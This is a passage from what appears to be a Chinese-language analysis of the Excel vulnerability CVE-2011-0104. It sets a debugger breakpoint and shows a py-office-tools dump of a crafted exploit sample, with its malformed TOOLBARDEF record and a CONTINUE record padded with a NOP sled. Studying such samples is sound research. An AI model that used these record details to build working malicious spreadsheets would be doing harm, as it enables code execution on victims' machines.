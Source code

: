 我们下个断点在v13获取长度时，也就是地址3070DF16处看看，同时利用py-office-tools工具辅助查看数据复制的情况

![image-20220721154909773](cve-2011-0104.assets/image-20220721154909773.png)

```shell
C:> python2 pyOffice.py -g src.xlb > src.txt

[*]Opening file src.xlb
[*]Listing streams/storages:

Warning: OLE type 0x8 not in types

[**]Detected Excel file src.xlb
********************************************************************************
[*]Dumping Workbook stream 0x3f7a (16250) bytes...

[ii]BOF record: current count 1
[0]Record BOF [0x809 (2057)] offset 0x0 (0), len 0x10 (16) (Beginning of File)
        WORD vers = 0x600 (1536)
        WORD dt = 0x400 (1024)
        WORD rupBuild = 0x1faa (8106)
        WORD rupYear = 0x7cd (1997)
        DWORD bfh = 0x500c9 (327881)
        DWORD sfo = 0x406 (1030)
[1]Record TOOLBARDEF [0xa7 (167)] offset 0x14 (20), len 0x4 (4) (Toolbar Definition:)
        BYTE fUnnamed = 0xb0 (176)
        WORD cbtn = 0xc0f (3087)
        Field 'rgbbtndef' is variable length, dumping rest of record:
            0000000000   00                                                 .
[2]Record CONTINUE [0x3c (60)] offset 0x1c (28), len 0x300 (768) (Continues Long Records)
        Field 'data' is variable length, dumping rest of record:
            0000000000   40 DF D6 D5 3B DF D6 D5 3B 00 00 00 00 00 00 00    @...;...;.......
            0000000010   00 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000020   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000030   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000040   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000050   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000060   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000070   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000080   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000090   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            00000000A0   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            00000000B0   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            00000000C0   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            00000000D0   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            00000000E0   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            00000000F0   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000100   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000110   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000120   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000130   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000140   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000150   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
```